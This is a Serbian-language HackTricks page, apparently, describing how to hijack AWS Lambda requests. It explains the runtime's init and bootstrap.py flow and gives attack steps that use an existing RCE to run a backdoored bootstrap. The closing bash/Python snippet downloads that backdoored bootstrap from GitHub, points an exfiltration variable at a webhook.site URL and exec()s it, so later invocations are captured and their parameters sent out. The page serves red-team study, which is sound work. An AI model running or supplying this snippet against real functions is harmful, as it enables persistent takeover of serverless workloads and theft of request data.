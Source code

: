 # AWS - Ukradi Lambda Zahteve

{% hint style="success" %}
Uči i vežbaj AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Uči i vežbaj GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrži HackTricks</summary>

* Proveri [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridruži se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **prati** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podeli hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Lambda Tok

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces van kontejnera koji **šalje** **invokacije** procesu **init**.
2. Proces init sluša na portu **9001** izlažući neke zanimljive krajnje tačke:
* **`/2018-06-01/runtime/invocation/next`** – dobiti sledeći događaj invokacije
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vratiti odgovor handler-a za invokaciju
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vratiti grešku u izvršavanju
3. **bootstrap.py** ima petlju koja dobija invokacije iz init procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje init-u **odgovor**

Napomena da bootstrap učitava korisnički kod kao modul, tako da se svaka izvršena kodna operacija od strane korisničkog koda zapravo dešava u ovom procesu.

## Ukradanje Lambda Zahteva

Cilj ovog napada je da se korisnički kod izvrši kao zlonameran **`bootstrap.py`** proces unutar **`bootstrap.py`** procesa koji obrađuje ranjivi zahtev. Na ovaj način, **zlonameran bootstrap** proces će početi da **komunicira sa init procesom** kako bi obradio zahteve dok je **legitiman** bootstrap **zarobljen** u izvršavanju zlonamerne verzije, tako da neće tražiti zahteve od init procesa.

Ovo je jednostavan zadatak za postizanje jer se kod korisnika izvršava od strane legitimnog **`bootstrap.py`** procesa. Tako da napadač može:

* **Poslati lažni rezultat trenutne invokacije init procesu**, tako da init misli da bootstrap proces čeka na više invokacija.
* Zahtev mora biti poslat na **`/${invoke-id}/response`**
* Invoke-id se može dobiti iz steka legitimnog **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ili jednostavno ponovo zahtevati na **`/2018-06-01/runtime/invocation/next`** (kao [predloženo ovde](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Izvršiti zlonameran **`boostrap.py`** koji će obraditi sledeće invokacije
* U svrhu prikrivanja, moguće je poslati parametre lambda invokacija na C2 kontrolisan od strane napadača i zatim obraditi zahteve kao i obično.
* Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zlonamerni kod i pokrenuti ga iz trenutne lambda invokacije.

### Koraci Napada

1. Pronaći **RCE** ranjivost.
2. Generisati **zlonameran** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Izvršiti** zlonamerni bootstrap.

Možete lako izvršiti ove radnje pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija proverite [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Reference

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
